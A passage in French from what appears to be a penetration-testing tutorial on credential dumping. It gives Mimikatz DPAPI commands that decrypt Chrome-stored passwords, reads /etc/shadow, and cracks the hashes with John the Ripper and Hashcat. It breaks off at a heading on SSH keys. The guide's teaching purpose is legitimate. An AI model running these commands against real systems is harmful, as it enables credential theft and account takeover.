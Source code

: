 ### DPAPI : accès aux secrets chiffrés

Le Data Protection API (DPAPI) est un mécanisme utilisé par Windows pour chiffrer des informations sensibles comme les mots de passe des navigateurs, les identifiants stockés, ou les clés privées. Mimikatz permet d'interagir avec DPAPI pour déchiffrer ces secrets :

```
dpapi::masterkey /in:"C:\Users\utilisateur\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\<guid>" /sid:S-1-5-21-... /password:motdepasse
dpapi::chrome /in:"C:\Users\utilisateur\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

La première commande déchiffre une clé maître DPAPI, tandis que la seconde utilise cette clé pour déchiffrer les mots de passe stockés par Chrome.

## Dump de credentials sous Linux

Les systèmes Linux stockent les informations d'authentification différemment de Windows, nécessitant des approches spécifiques pour leur extraction.

### Extraction des hachages de mots de passe

Le fichier `/etc/shadow` contient les hachages des mots de passe des utilisateurs locaux. Son accès nécessite généralement des privilèges root :

```
cat /etc/shadow
```

Pour une analyse plus structurée, on peut combiner les informations de `/etc/passwd` et `/etc/shadow` :

```
unshadow /etc/passwd /etc/shadow > hashes.txt
```

Cette commande crée un fichier au format attendu par des outils de cracking comme John the Ripper.

### Cracking des hachages avec John the Ripper

Une fois les hachages extraits, John the Ripper peut être utilisé pour tenter de retrouver les mots de passe en clair :

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Pour les hachages particulièrement résistants, Hashcat offre des performances supérieures grâce à l'accélération GPU :

```
hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

L'option `-m 1800` spécifie le type de hachage (ici, sha512crypt utilisé par défaut dans de nombreuses distributions Linux modernes).

### Extraction des clés SSH
